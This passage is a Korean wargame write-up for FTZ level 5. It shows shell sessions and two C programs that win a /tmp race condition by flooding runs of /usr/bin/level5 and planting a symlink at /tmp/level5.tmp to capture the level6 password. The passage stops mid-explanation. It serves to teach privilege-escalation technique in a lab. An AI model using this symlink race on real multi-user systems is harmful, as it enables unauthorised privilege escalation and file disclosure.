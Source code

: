 ```yaml
---
title: FTZ 5번 Write-up
date: 2017-8-22 11:09:00
categories: FTZ
---
```


## FTZ 5번

이건 딱봐도 풀기 싫게 생겼다.

    [level5@ftz level5]$ ls
    hint  public_html  tmp
    [level5@ftz level5]$ cat hint
    
    /usr/bin/level5 프로그램은 /tmp 디렉토리에
    level5.tmp 라는 이름의 임시파일을 생성한다.
    
    이를 이용하여 level6의 권한을 얻어라.

`/usr/bin/level5`의 프로그램은 실행중일때만 `level5.tmp`라는 임시파일을 생성하고, 종료될경우, 임시파일은 바로 삭제된다.

    [level5@ftz level5]$ cd /tmp
    [level5@ftz tmp]$ ls
    mysql.sock
    [level5@ftz tmp]$ vi script.c
    int main(){
            int i;
            for(i=0;i<200000;i++){
                    system("/usr/bin/level5 &");
            }
    }
    [level5@ftz tmp]$ gcc -o script script.c

	[level5@ftz tmp]$ vi script1.c
    #include<stdio.h>
    int main(){
            int i=0;
            system("touch /tmp/level5.code");
            for(i=0;i<200;i++){
                    system("ln -s /tmp/level5.code /tmp/level5.tmp 2>/dev/null");
            }
            system("cat /tmp/level5.code");
    }
    [level5@ftz tmp]$ gcc -o script1 script1.c

이렇게 `/usr/bin/level5`를 계속 실행시키는 script 프로그램과 `/usr/bin/level5`가 실행되는 동안 `/tmp/level5.tm`p에 심볼릭 링크를 걸어주고, 마지막에 임시파일, 즉 플래그를 출력하도록 하는 script1 프로그램을 짜 보았습니다.
script1이 필요한 이유는

    [level5@ftz tmp]$ ./script &
    [1] 27505

`./script` 뒤에 `&`을 붙이면 백그라운드에서 실행하도록 해준다.
아래줄에 있는 5자리 수는 프로세스 번호로, `kill 27505`를 입력하면 script프로그램을 종료할 수 있습니다.
